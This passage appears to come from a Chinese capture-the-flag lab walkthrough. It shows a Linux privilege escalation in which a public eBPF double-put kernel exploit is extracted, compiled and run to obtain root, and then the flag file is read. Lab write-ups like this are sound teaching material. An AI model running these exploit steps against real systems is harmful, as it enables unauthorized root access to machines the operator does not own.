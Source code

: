 
<img src="https://img-blog.csdnimg.cn/3b46928e10d5421c9ab36cb34d6f77b7.png" alt="在这里插入图片描述">

#### 3.提权

>  
 解压文件 


```
unzip 39772.zip

```

<img src="https://img-blog.csdnimg.cn/0d06caf75b6f402f87b0d769b3fa5351.png" alt="在这里插入图片描述">

```
cd 33792
ls

```

<img src="https://img-blog.csdnimg.cn/bfbde325c8f44990ae05cb91dccc2826.png" alt="在这里插入图片描述">

```
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit

```

<img src="https://img-blog.csdnimg.cn/7824d164753341db89e98bacf41d09f5.png" alt="在这里插入图片描述">

```
./compile.sh
./doubleput

```

>  
 执行完之后，提权成功 


<img src="https://img-blog.csdnimg.cn/00fcaf26f51a42939b07353b308ec6b9.png" alt="在这里插入图片描述">

>  
 获得root权限 


<img src="https://img-blog.csdnimg.cn/830accbf5e6b4f609b44994ec9c74d2f.png" alt="在这里插入图片描述">

### 16.发现the-flag.txt

```
ls
cat the-flag.txt

```

<img src="https://img-blog.csdnimg.cn/2a8788bdb297404a8e529634be60cb53.png" alt="在这里插入图片描述">

## 三、相关资源

           
